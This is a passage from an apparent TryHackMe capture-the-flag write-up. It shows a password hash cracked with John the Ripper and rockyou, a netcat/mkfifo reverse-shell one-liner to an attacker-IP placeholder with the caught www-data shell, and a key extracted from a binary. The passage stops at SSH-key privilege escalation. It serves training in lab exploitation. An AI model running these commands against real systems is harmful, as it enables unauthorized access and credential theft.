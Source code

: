   ```
  john --wordlist=/rockyou.txt charlie.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
  Cost 1 (iteration count) is 5000 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  cn7824           (?)     
  1g 0:00:04:53 DONE (2025-05-16 15:27) 0.003409g/s 3356p/s 3356c/s 3356C/s cocker6..cn123
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  ```

---

## ⚙️ Shell Access

- I spent some time on main login page trying to bypass it but it was unseccessful. Well, then I visited `/home.php` and found my way in. Simply put any reverse shell that you like and start a listener.

  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f

  nc -lvnp 4444                     
  listening on [any] 4444 ...
  connect to [YOUR_THM_IP] from (UNKNOWN) [10.10.230.172] 46818
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27(sudo)
  ```
  
- Change it to putty shell and start looking. Key can be found in `key_rev_key` file.

  ```
  strings key_rev_key
  [SNIP!]
  Enter your name: 
  laksdhfas
   congratulations you have found the key:   
  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
  [SNIP!]
  ```


---

## 🧍 User Privilege Escalation

- OK, I found the first flag but couldn't read it. Thankfully there is a pair of RSA keys in the same directory so that's how we will escalate to user `charlie`. Copy the key to your Kali and connect with it through SSH.

